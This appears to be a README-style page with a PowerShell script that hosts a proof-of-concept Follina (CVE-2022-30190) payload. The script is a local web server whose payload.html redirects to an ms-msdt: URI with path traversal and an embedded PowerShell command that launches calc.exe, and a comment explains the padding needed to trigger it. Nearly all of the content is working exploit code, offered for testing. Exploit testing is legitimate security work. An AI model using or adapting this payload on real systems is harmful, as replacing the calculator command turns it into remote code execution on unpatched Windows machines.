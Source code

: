 # Follina Web Server

Simple PowerShell web server to test Follina by popping calc. When running, URL can be accessed by: http://localhost:8081/payload.html

```powershell
# enter this URL to reach PowerShell’s web server
$url = 'http://localhost:8081/'

# HTML content for some URLs entered by the user
$htmlcontents = @{

############# GET /payload.html
"GET /payload.html"  =  @'    
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
'@;

############# GET /
'GET /' = @'   
<!doctype html>
<html lang="en">
<body>
Webserver OK
</body>
</html>
'@
}

# -------------------------------------
# start web server
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add($url)
$listener.Start()

try
{
  while ($listener.IsListening) {  
    # process received request
    $context = $listener.GetContext()
    $Request = $context.Request
    $Response = $context.Response

    $received = '{0} {1}' -f $Request.httpmethod, $Request.url.localpath
    
    # is there HTML content for this URL?
    $html = $htmlcontents[$received]
    if ($html -eq $null) {
      $Response.statuscode = 404
      $html = 'Oops, the page is not available!'
    } 

    Write-Output "Receiving request for $received"
    # return the HTML to the caller
    if ($Request.httpmethod -ne "HEAD") {        
        $buffer = [Text.Encoding]::UTF8.GetBytes($html)
    } else {
        $buffer = ""
    }
    $Response.ContentLength64 = $buffer.length
    $Response.OutputStream.Write($buffer, 0, $buffer.length)

    
    $Response.Close()
  }
}
finally
{
  $listener.Stop()
}
```

References: 
https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/creating-powershell-web-server
https://github.com/JMousqueton/PoC-CVE-2022-30190
